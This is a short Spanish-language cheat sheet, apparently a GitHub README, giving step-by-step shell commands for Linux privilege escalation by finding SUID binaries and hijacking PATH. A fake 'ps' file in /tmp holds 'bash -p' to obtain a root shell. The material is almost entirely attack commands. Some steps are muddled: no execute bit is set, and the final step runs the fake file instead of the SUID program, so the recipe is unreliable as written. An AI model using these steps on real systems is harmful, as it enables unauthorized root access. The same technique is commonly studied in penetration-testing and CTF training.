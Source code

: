 **Primero se deben buscar los archivos SUID.**

`$ find / -perm -4000 2>/dev/null`

**Ahora buscar los directorios principales.**

`$ echo $PATH`

**Exportar los directorios principales para envenenar SUID.**

`$ export PATH=/tmp:$PATH`

**Creamos un archivo con el mismo nombre del SUID (ejemplo: nmap, ps, passwd, etc.) en la carpeta /tmp**

`$ touch ps`

**Editamos el archivo ps con el comando a inyectar.**

`$ bash -p`

**Verificamos los cambios del PATH.**

`$ echo $PATH`

**Ejecutamos el script que tiene permisos binarios y escalaremos privilegios.**

`$ ./ps`

